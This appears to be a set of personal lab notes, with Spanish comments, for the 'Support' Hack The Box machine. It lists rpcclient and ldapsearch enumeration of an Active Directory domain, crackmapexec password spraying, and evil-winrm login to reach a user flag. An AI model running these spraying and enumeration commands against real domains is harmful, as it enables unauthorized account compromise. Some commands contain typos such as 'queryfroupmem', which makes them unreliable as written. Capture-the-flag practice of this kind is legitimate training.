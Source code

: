 ## VALIDATING LDAP CREDENTIALS
```bash
# ACTIVAR OPENVPN
echo 'ldap:<PASSWORD>' > credentials.txt
crackmapexec smb <IP> -u 'ldap' -p '<PASSWORD>'
crackmapexec winrm <IP> -u 'ldap' -p '<PASSWORD>'
```

## RCPCLIENT ENUM (WITH CREDS)
```bash
rpcclient -U 'ldap%<PASSWORD>' <IP> -c enumdomusers | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users.txt
rpcclient -U 'ldap%<PASSWORD>' <IP> -c enumdomgroups
rpcclient -U 'ldap%<PASSWORD>' <IP> -c queryfroupmem 0x200
rpcclient -U 'ldap%<PASSWORD>' <IP> -c queryuser 0x1f4
rpcclient -U 'ldap%<PASSWORD>' <IP> -c querydispinfo
```

## PASSWORD SPRYING ATTACK
```bash
crackmapexec smb <IP> -u users.txt -p <PASSWORD> --continue-on-success
```

## LDAPSEARCH AD ENUM
```bash
ldapsearch -x -H ldap://<IP> -D 'ldap@support.htb' -w '<PASSWORD>' -b "DC=support,DC=htb"
ldapsearch -x -H ldap://<IP> -D 'ldap@support.htb' -w '<PASSWORD>' -b "DC=support,DC=htb" | grep -i samaccountname
ldapsearch -x -H ldap://<IP> -D 'ldap@support.htb' -w '<PASSWORD>' -b "DC=support,DC=htb" | grep -i 'samaccountname: support' -B 40
# NUEVO <PASSWORD> EN EL CAMPO "INFO"
```

## PASSWORD SPRYING ATTACK (NEW PASS)
```bash
crackmapexec smb <IP> -u users.txt -p <PASSWORD> --continue-on-success
crackmapexec winrm <IP> -u users.txt -p <PASSWORD> --continue-on-success
```

## GRANTED ACCESS SUPPORT USER
```bash
crackmapexec winrm <IP> -u 'support' -p '<PASSWORD>'
evil-winrm -i <IP> -u 'support' -p '<PASSWORD>'
whoami
```

## FLAG USER.TXT
```bash
type C:\Users\support\Desktop\user.txt
```
